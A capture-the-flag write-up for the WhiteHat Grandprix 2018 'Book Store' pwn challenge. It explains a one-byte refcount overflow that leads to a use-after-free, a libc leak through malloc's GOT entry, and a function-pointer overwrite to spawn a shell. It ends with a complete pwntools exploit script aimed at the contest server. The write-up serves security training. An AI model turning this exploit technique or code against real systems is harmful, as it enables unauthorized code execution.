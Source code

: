 # Writeup for pwn 02 - Book Store - WhiteHat Grandprix 2018 Qualifiers

## The Challenge

We are given a "book store" service, which allows us to add, edit, remove and print out books.

The book structure is as follows:

```C
typedef struct book{
    book* nextBook;
    void* pBrief;
    char title[0x20];
    char book_idx;
    char refcount;
    void* print_func;
};
```
The `pBrief` member is a pointer to a `malloc()`d memory region (size is dependant on the user).

When adding a book, we also have the option to make a reference from that book to other books, and the book that **receives** the reference gets it's `refcount` field incremented.
This can be seen in the following code-snippet inside the `add_book()` function:

```C
unsigned __int64 add_book()
{
	...
	...
    if ( reference_book_title )
    {
      current_book = list_of_books;
      running_idx = 0;
      while ( current_book )
      {
        v0 = (signed __int64)current_book->title;
        if ( !strncmp(&reference_book_title, current_book->title, 0x20uLL) )
        {
          new_book->book_idx = running_idx;
          ++current_book->refcount;
          break;
        }
        ++running_idx;
        current_book = (struct book *)current_book->next_book;
      }
    }
    ...
    ...
 }
 ```

Also, when adding a book, we have the option to make it a best-selling book. There is a global `best_book` variable that is stored in the data segment, and is pointing to the best selling book. 

This global `best_book` also increments the book's `refcount` due to it also pointing to the book.

## The Vulnerability

As seen above, the `refcount` member is **only a BYTE in size**, also, there are no checks whatsoever whether it overflows.

When adding a **best selling** book, the program checks if a best-selling book already exists, and if so, it decrements the original book's `refcount` member, and checks if it's 0, if it is, it calls `free()` to free the `pBrief` memory, and the book struct itself afterwards, this can be seen in the following code snippet (inside the function `best_selling()`):

```C
book *__fastcall best_selling(book *a1)
{
...
  if ( best_book )
  {
    --best_book->refcount;
    best_book->print_func = (__int64)print_normal;
    if ( !best_book->refcount )
    {
      free((void *)best_book->pBrief);
      free(best_book);
    }
  }
 ...
 ...
}
```

If we can get the `refcount` of a best-selling book to overflow to be **1** and then *change a best-selling book*, then that book would get freed (also it's `pBrief` member), but would not be removed from the linked list that exists due to the `book* next_book` member in the `book` struct.

This could theoretically grant us a UAF primitive, which is easily exploitable due to the fact that the size of `pBrief` is controlled by us, so we can make it to be the same size as the `book` struct, and achieve a perfect overlap!

## The Leak

To achieve a reliable exploit, we also need an info-leak. This info-leak is very trivial due to the UAF primitive, and the fact that there is a function that prints the details of the books!

To get an info-leak we just need to get a UAF-ed book `pBrief` to overlap with a newly created `book` struct. If the `pBrief` has the same size as the struct, we can just leak the entire `book` struct! Also, we can modify the `pBrief` of the newly created `book` to make it point to `malloc()`'s GOT entry, and then leak the address of `malloc()` in libc when we print the data of the UAF-ed book!

## The Exploit

After leaking, we can easily modify the `print_func` function pointer using the UAF-ed book's `pBrief`, to make it point to a shell one gadget and then easily pop a shell.

Modifying an in-use book's `print_func` is as easy as changing the `pBrief` of the UAF-ed book to just match what we want :)

After doing so, when we trigger the `print_func` for that same book, it will execute `system("/bin/sh")` :D

Basically - once we have that UAF, leaking and exploiting is as easy as modifying the fields of an in-use `book` struct, using the UAF-ed `pBrief` :)

## Exploit Code

```Python
from pwn import *

r = remote("pwn02.grandprix.whitehatvn.com", 8005)

def rc():
    r.recvuntil("choice:")

rc()

def addBook(title, briefSize, brief,referenceTitle="",bestSelling=False):
    r.sendline("1")
    r.recvuntil("Title:")
    r.sendline(title)
    r.recvuntil("size:")
    r.sendline(str(briefSize))
    r.recvuntil("brief:")
    r.sendline(brief)
    r.recvuntil("title:")
    r.sendline(referenceTitle)
    r.recvuntil("(Y/N)")
    if bestSelling:
        r.sendline("Y")
    else:
        r.sendline("N")
    rc()

def removeBook(title):
    r.sendline("3")
    r.recvuntil("Title:")
    r.sendline(title)
    rc()

addBook("first", 10, "CCCC","CCCC", bestSelling=False)

addBook("AAAA",0x3a,"A"*0x30,"AAAA",bestSelling=True)

for m in range(255):
    addBook("abc"+"A"*m,10,"BBBB","AAAA", bestSelling=False)

addBook("newBook", 10, "newBook", "newBook", bestSelling=True)

removeBook("first")


MALLOCGOT = 0x601fd0
ONE_GADGET = 0x10a38c

addBook("newBook2", 58, "\x00"*8+p64(MALLOCGOT)+"F"*8, "newBook2", bestSelling=False)

r.sendline("4")

r.recvuntil("FFFFFFFF|")

leak = r.recvline()

mallocLeak = int(leak.strip()[::-1][4:][:6].encode('hex'),16)
rc()

log.info("malloc leak @ 0x%x" % mallocLeak)

LibcBase = mallocLeak - 0x97070
log.info("libc base @ 0x%x" % LibcBase)

nextPayload = "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFAA" + p64(LibcBase+ONE_GADGET)

r.sendline("2")

r.recvuntil("title:")
r.sendline("newBook2")

r.recvuntil("title:")
r.sendline("pwn")

r.recvuntil("size:")
r.sendline("58")

r.recvuntil("brief:")

r.sendline(nextPayload)

r.interactive()
```
